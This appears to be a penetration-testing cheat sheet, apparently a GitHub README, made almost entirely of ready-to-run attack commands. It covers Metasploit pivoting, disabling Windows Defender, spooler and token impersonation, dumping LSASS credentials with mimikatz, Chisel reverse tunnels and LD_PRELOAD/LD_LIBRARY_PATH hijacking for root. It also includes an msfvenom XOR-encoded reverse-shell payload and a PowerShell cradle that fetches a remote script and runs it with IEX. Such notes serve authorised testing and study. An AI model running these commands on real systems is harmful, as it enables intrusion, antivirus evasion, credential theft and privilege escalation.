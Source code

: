# Metasploit Autoroute
```bash
use post/multi/manage/autoroute
set subnet 172.16.216.0
set session 15
run
use server/socks_proxy
route
set srvport 8080
set version 4a
set srvhost 0.0.0.0
run
```

# Go Buster
```bash
gobuster dir -e -u http://192.168.120.132/ -w /usr/share/wordlists/dirb/common.txt
```

# Windows AV

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableRemovableDriveScanning $true
Set-MpPreference -DisableArchiveScanning $true
Get-MpComputerStatus
```

# Windows Credential

## SpoolSV Exploitation
```powershell
ls \\dc03\pipe\spoolss

SpoolSample.exe [Host Machine] [Target Pipe] <appsrv01\test>
PrintSpooferNet.exe [Target Pipe] <\\.\pipe\test\pipe\spoolss>
```
## Incognito Impersonation Metasploit
```powershell
#Inside Metasploit 
load incognito
list_tokens -u
impersonate_token corp1\\admin
getuid
```
## MiniDump
```powershell
#MiniDump.exe
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```
# Network 

## Chisel Tunnel
```Powershell
#Server Side
./chisel server -p [Port] --reverse

#Client Side
./chisel client [Server IP Address]:[Port] R:[Remote Port]:socks

#Server Side
proxychains4 nmap [IP Address]
```
# Linux Command Injection 

## LD_LIBRARY_PATH Hijacking
Logic: Use LDD to find libgpg-error.so.0 → Use readelf to grep needed variable → Put into "Linux Shellcode Loaders/sharedLibrary_LD_LIBRARY_PATH.c" → Export the library path and Execute
```bash
ldd /usr/bin/top //Find out libgpg-error.so.0 => /lib/x86_64-linux-gnu/libgpg-error.so.0 (0x00007ff5aa0f8000)
readelf -s --wide /lib/x86_64-linux-gnu/libgpg-error.so.0 | grep FUNC | grep GPG_ERROR | awk '{print "int",$8}' | sed 's/@@GPG_ERROR_1.0/;/g'
gcc -Wall -fPIC -z execstack -c -o sharedLibrary_LD_LIBRARY_PATH.o sharedLibrary_LD_LIBRARY_PATH.c
gcc -shared -o sharedLibrary_LD_LIBRARY_PATH.so sharedLibrary_LD_LIBRARY_PATH.o -ldl
export LD_LIBRARY_PATH=/home/offsec/ldlib/
sudo top
```

## LD_PRELOAD
Logic: Use ltrace cp → find out the cp command use getuid → set LD_PRELOAD to hijack the function
```bash
gcc -Wall -fPIC -z execstack -c -o sharedLibrary_LD_PRELOAD.o sharedLibrary_LD_PRELOAD.c
gcc -shared -o sharedLibrary_LD_PRELOAD.so sharedLibrary_LD_PRELOAD.o -ldl
export LD_PRELOAD=/home/offsec/evil_geteuid.so
```

# MSF Console

## Payload Generation
```bash
#For linux XOR
sudo msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 prependfork=true -f elf -t 300 -e x64/xor_dynamic -o test.elf

```

## Post-exploitation
```powershell
execute -H -f notepad
migrate

##Download Host Recon
(new-object system.net.webclient).downloadstring('http://192.168.119.120/HostRecon.ps1') | IEX

## Check RunasPPL (If 1 -> Enabled)
Get-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name "RunAsPPL"
```

